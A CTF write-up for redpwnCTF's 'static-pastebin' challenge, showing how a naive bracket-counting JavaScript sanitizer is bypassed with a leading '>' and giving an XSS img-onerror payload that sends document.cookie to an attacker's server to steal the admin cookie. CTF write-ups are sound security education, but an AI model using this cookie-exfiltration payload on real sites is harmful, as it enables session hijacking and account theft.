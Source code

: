 ```yaml
---
title: "redpwnCTF: static-pastebin"
categories:
  - redpwnCTF
tags:
  - redpwnCTF
---
```


*I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here*

*Site: static-pastebin.2020.redpwnc.tf*

---

For this challenge, we have a static pastebin that we can put text in. On the backend, we have javascript that increments a variable when a character is a "<" and decrements the variable if it's ">" recursively:

```
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
```

We can see that the current character is only added to the payload if the variable is zero, which means we'll need to open the payload with a >, so it hits zero when the payload actually starts.

The following payload connects to our server:

```
><img src=x onerror=this.src='http://xx.xx.xx.xx/?c='+document.cookie>
```

We'll use this same payload on the second website we're given, to have the admin make a request to our server, thereby stealing his cookie. 

With this payload, we get the flag!

**flag{54n1t1z4t10n_k1nd4_h4rd}**

